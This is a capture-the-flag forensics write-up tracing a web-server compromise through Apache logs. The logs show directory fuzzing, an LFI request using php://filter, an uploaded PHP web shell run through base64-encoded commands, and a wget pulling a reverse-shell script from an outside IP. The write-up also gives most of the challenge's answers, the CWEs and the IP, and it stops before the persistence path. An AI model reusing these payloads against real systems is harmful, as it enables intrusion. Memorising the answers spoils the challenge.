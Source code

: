 To identify the attacking group, you must retrieve:

- the CWE of the first vulnerability used by the attacker,

- the CWE of the second vulnerability used by the attacker,

- the IP address of the server from which the attacker retrieves their tools, and

- the arbitrary file path used for persistence.

Example data:

- CWE of the first vulnerability: SQL Injection → CWE-89

- CWE of the second vulnerability: Cross-Site Scripting → CWE-79

- IP: 13.37.13.37

- File path: /etc/passwd

Validation format:
RM{CWE-89:CWE-79:13.37.13.37:/etc/passwd}

Analyze the logs via the SOC

Identify Indicators of Compromise (IoC) and Indicators of Attack (IoA)

### SOC platform

The SOC platform is a web application that allows us to analyze the logs of the attack. We can filter the logs by date, IP address, and other parameters. [OpenSearch-Dashboards](https://github.com/opensearch-project/OpenSearch-Dashboards) is used to analyze the logs.
We have two index patterns to analyze:

- `apache-*` being the logs of the web server
- `systemd-*` being the logs of the systemd service

### Apache logs

Upon starting the investigation on the logs, we looked at the different peaks of activities. While the earliest peak did not seem to hold anything interesting, it's the second one that has something interesting and it's the usage of Fuzz Faster U Fool (FFUF) in the logs as we can see from the user-agent used, done by the `10.143.17.101` IP address.
This tool is used to do some dirbusting, and we could see that the attacker is trying to find some files on the server during these peaks of activities.
Once it gets to the `/admin-page` it attempts to authenticate multiple times but fails. It then pivots to exploiting a LFI (LOCAL FILE INCLUSION) vulnerability, with the following request : `/?lang=php://filter/read=convert.base64-encode&page=resource=index` allowing the attacker to read the contents of the `index.php` file, and succeeds doing so. He also does it with the `config.php` and `db/connect.php` files.
After doing so, the attacker manages to authenticate on the `/admin-page` page. Once on this page, we can see that, after multiple failed attempts, the attacker manages to upload a `ev1L.php.png` file on the server, and then sends commands from it, like with this query for instance `?cmd=echo%10%27bHMgLWxhIA==%27|base64%20-d|sh`, and all of these come from the same IP address (`10.143.17.101`).
We can assume that one of the CWE is CWE-98, which is PHP File Remote Inclusion, and the second one is CWE-434, which is Unrestricted Upload of File with Dangerous Type. (multiple other CWEs are possible as I tested while making the flag, but for the sake of the challenge, we will assume these two).
Finally, we can decrypt the base64 commands that have been executed, and we get some `pwd`, `id`, and more, but most importantly, we have these two commands : `chmod +x s1mpl3-r3vsh3ll-vps.sh` and `wget http://163.172.67.201:49999/s1mpl3-r3vsh3ll-vps.sh` which are used to download a reverse shell on the server, and making it executable. Thus, we have the CWEs and the IP, we just need to find the file path used for persistence.
